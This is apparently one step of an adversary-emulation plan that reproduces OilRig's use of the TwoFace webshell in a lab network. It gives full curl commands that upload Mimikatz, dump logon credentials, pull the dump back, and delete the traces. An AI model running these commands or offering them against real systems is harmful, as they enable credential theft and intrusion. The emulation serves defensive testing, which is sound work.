 ### :microphone: Voice Track

Step 6 emulates OilRig using the webshell to download Mimikatz to `WATERFALLS` 
and using elevated privileges to dump credentials. The dumped credentials 
(stored in `01.txt`) are exfiltrated back to the C2 (`192.168.0.4`) via the webshell.

After exfiltration is complete OilRig deletes both Mimikatz and the dumped 
credentials from the directory on `WATERFALLS`.

---

### ☣️ Procedures

Download Mimikatz to `WATERFALLS (10.1.0.6)`.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -F "upl=f1" -F 'sav=C:\Windows\temp\' -F "vir=false" -F "nen=m64.exe" -F 'f1=@m64.exe' https://10.1.0.6/EWS/contact.aspx
```

Dump credentials using Mimikatz. Output includes creds for SQL server 
administrator `tous`.

:bulb: `privilege::debug` has been included here to match the CTI, but is
unnecessary due to the webshell running as SYSTEM.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Temp\01.txt" https://10.1.0.6/ews/contact.aspx
```

Exfiltrate the resulting output file `01.txt` to the attacker platform.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST -o 01.txt --data 'don=c:\windows\temp\01.txt' https://10.1.0.6/EWS/contact.aspx
```

Display the contents of `01.txt` in the terminal window.

```bash
cat 01.txt
```

Clean up on `WATERFALLS` by removing the binary and output file from 
`C:\Windows\Temp\`.

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' -k -X POST --data "pro=cmd.exe" --data "cmd=del C:\windows\temp\01.txt C:\windows\temp\m64.exe" https://10.1.0.6/EWS/contact.aspx
```
<br>

### :moyai: Source Code
:heavy_exclamation_mark: __NB__: The function descriptions in TwoFace (contact.aspx) refer to the Mimikatz download as "Arbitrary Folder Upload" and the 01.txt exfiltration as "File Download" which is the reverse of how said activities are described in the emulation procedure; this is to match to CTI but results in slightly contradictory source code links.
*  TwoFace Webshell download file to victim: [contact.aspx#L58-L115](../Resources/TwoFace/contact.aspx#L58-L115/)
*  TwoFace Webshell file upload file to C2: [contact.aspx#L120-L145](../Resources/TwoFace/contact.aspx#L120-L145/)
*  TwoFace Webshell temp delete: [contact.aspx#L150-L169](../Resources/TwoFace/contact.aspx#L150-L169/)
